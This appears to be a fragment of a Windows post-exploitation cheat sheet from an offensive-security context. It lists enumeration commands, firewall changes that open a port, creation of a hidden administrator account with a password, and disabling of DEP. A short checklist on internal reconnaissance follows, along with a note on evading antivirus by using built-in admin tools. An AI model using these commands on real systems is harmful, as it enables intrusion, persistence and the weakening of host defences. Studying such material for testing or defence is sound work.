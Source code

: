 tasklist /svc > svclist.txt

schtasks /query /fo LIST /v

net start

DRIVERQUERY

netsh firewall show opmode

netsh firewall set opmode enable

netsh firewall add portopening TCP 80 HTTP enable subnet

dir "C:\Documents and Settings"

systeminfo

net user John fadf24as /ADD

net localgroup administrators John /add

whoami /priv
	/groups
	/user

#Windowsxp
echo %username%

#Disable MPP
netsh int tcp set security mpp=disabled



bootcfg /raw "/noexecute=alwaysoff"

### INTERNAL ENUMERATION

Goals:
- understand who, what, where, when, Why
- Remember: Check, Collect, Clean

1. Who else is on right now?
	- Linux: w
	- Windows: query user
	- remotely: query user /server:computername
2. Who has been on?
	- Linux: last
	- Windows: ?
3. What has this box been talking to?
	- Linux: arp -e, check ssh known_hosts
	- Windows: arp /all, check ssh known_hosts
4. What is this box able to talk to?
	- Linux: route print, ip addr
	- Windows: route print, ipconfig



============================================================================================
					FILE TRANSFER  Goals: Upload tools to expand access
					Remember: To avoid AV it is best to use legit Admin tools.
============================================================================================
# DUMMY ACCOUNT - Lets not leave our creds for root on the victim machine
# thedude:!thedudeabides!$ 
